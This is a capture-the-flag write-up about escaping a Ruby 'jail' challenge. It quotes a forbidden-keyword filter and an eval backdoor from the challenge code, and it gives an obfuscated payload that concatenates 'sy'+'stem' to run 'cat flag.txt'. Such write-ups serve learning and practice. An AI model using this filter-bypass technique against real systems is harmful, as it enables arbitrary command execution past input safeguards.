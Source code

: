 ```ruby
    end
    next
  end

  execute_command(input)
end
```
**Im not good at ruby at this point of my life so we will go along with gpt**
![Alt Text](https://i.pinimg.com/736x/bc/b0/2d/bcb02d97c27c80b7c02562afdf52ab47.jpg)

```
(y2k@faris)-[~/Downloads]
$ nc 157.180.92.15 52365
===========================
=    Eevee's Jail 5     =
===========================
[+] > ruby:system('ls')
Invalid characters detected!
[+] > ruby:Kernel.send(:eval, "system('ls')")
Invalid characters detected!
```
## 💥 Exploit Analysis By GPT :

1.Input Sanitization
```ruby
forbidden_words = %w[flag eval system read exec irb puts dir]
```
**1.Uses a regex pattern to block inputs containing any of these keywords as whole words.**
**2.Rejects inputs containing shell metacharacters like `&|<>$`` to prevent shell injection**
```ruby
ALLOWED_COMMANDS = ["ls"]
```
**2.Only allows ls if input is passed as a shell command.**
```ruby
if input.start_with?("ruby:")
    eval(input[5..])
```
**3.Backdoor for evaluating arbitrary Ruby code using eval.**

## Exploit Vector 
Payload :
 ```
 ruby:Kernel.send(("sy" + "stem").to_sym, 'cat ' + 'fla' + 'g.txt')
```
**The command ruby:Kernel.send(("sy" + "stem").to_sym, 'cat ' + 'fla' + 'g.txt') is a trick to get around** **filters that block certain commands. It splits the word "system" into two parts and puts them back together** **when running the code. It also combines parts of the command 'cat ', 'fla', and 'g.txt' to form 'cat flag.**
**txt'. This allows the code to use the system method without the filter noticing it, so it can run the cat** **flag.txt command and reveal the flag. This is called obfuscation, where the code is disguised to avoid** **detection.**
